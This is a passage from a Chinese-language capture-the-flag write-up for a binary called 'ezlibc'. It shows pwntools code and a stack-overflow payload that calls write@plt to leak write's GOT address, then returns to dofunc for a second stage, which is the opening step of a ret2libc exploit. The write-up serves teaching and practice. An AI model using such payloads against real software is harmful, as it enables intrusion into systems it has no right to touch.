 ![](./images/image-123.png)

由于题目已经给出了lib.so文件，因此无需计算偏移量

这里写代码就详细一点

首先是引用源文件

```
elf = ELF('./ezlibc') #加载源文件
libc = ELF('./libc-2.31.so') #加载libc.so
```

然后进行数据发送

```
io.sendline(b'a'*20+p32(write_plt_addr)+p32(0x80491B6)+p32(1)+p32(write_got_addr)+p32(4))
```

对上面这个paylaod的解释：20个a溢出后进入write函数，0x80491B6是dofunc函数的地址，也是write函数的返回地址。后面三个参数对应的是：1为write的"写模式"，elf.got.write是打印字符串的地址，4是指字符串的长度。

为什么write函数的地址要返回到dofunc的开始呢？因为要制造一个循环，第一次dofunc的时候是不知道write函数的地址的，将其打印出来后再进行dofunc函数操作，就可以利用计算偏移量来进行构造payload。（实际上并不一定要是dofunc，只需要在溢出点前面就行）

![](./images/image-124.png)
